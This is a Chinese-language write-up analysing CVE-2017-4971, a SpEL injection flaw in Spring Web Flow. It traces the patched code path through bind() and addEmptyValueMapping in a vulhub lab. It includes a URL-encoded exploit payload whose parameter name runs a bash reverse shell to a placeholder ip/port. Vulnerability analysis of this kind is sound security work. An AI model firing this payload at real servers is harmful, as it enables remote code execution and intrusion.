# CVE-2017-4971



在分析这个漏洞之前需要一些`Spring Webflow`的基础知识

[Spring Web Flow 2.0 入门](https://www.ibm.com/developerworks/cn/education/java/j-spring-webflow/index.html)

[java-Spring Webflow：在视图状态之间移动](http://www.cocoachina.com/articles/111129)



## 环境搭建



## 漏洞复现



**exp:**`url编码`

```
_(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/ip/port 0>&1")).start()=vulhub
```

## 分析原理

[官方修复地址](https://github.com/spring-projects/spring-webflow/commit/ec3d54d2305e6b6bce12f770fec67fe63008d45b)



可以看到是一个`AbstractMvcView.java  `类的`addEmptyValueMapping`方法里面进行了修改。我们就下载源代码进行分析。

[源代码下载](https://github.com/spring-projects/spring-webflow)



这里就是`Expression target = emptyValueExpressionParser.parseExpression(field, parserContext);`

这一句的问题，是表达式的执行。 `SpEL注入执行`

而我们现在看看这个执行，接收的第一次参数是`field`，而这个`field`是`addEmptyValueMapping`函数来的，说明肯定是调用这个函数的时候出问题了。

我们回跟这个函数。



看到这里有俩个地方都调用了这个函数，我们一个一个的分析，先分析`addModelBindings()`方法



回跟`addModelBindings()`方法的上一层方法。



而这里的`bind()`方法里面的`if`条件就包含了我们刚刚说到的调用`addEmptyValueMapping()`方法。然后我们详细的看看这个`bind()`方法

可以看到`addModelBindings`和`addDefaultMappings`方法都使用了`requestParameters`，而`requestParameters`就是获得的全部请求参数



将我们的`requestParameters`做一些处理然后传递到`addModelBindings`和`addDefaultMappings`方法中，我们先看看`addModelBindings`方法。


获得全部的`binding`的`Property`



所以上面代码的意思：如果请求参数的key里面没有配置文件的`Property`，就会进入`else`



而`fieldMarkerPrefix`是等于`_`,这也是我们exp里面是安`_`开头



然后就调用`addEmptyValueMapping`函数，执行了命令



我们在看看另一个函数在调用`addEmptyValueMapping`



这里是将我们的请求参数去掉`_`，然后将值给`field`。而进入`addEmptyValueMapping(mapper, field, model);`要求是`!parameterNames.contains(field)`
。而这个是显然的，因为我们请求的`parameterNames`里面有`_`而，`field`是没有`_`的。所以肯定为真。



然后就进入`addEmptyValueMapping(mapper, field, model);`



所以就成功执行了命令。

**注意上面分析的代码是修复之后的代码。是`Expression target = emptyValueExpressionParser.parseExpression(field, parserContext);`
这个地方进行了修改。漏洞代码是`expressParser.parseExpression(field, parserContext);`**

## 参考

> https://www.anquanke.com/post/id/86244
>
>https://github.com/spring-projects/spring-webflow/commit/ec3d54d2305e6b6bce12f770fec67fe63008d45b#diff-301f5eca16aa30c1c9c789bdc5452ca9b5719fc1ec194739bd255f4b3cb1b6fa
>
>https://github.com/vulhub/vulhub/tree/master/spring/CVE-2017-4971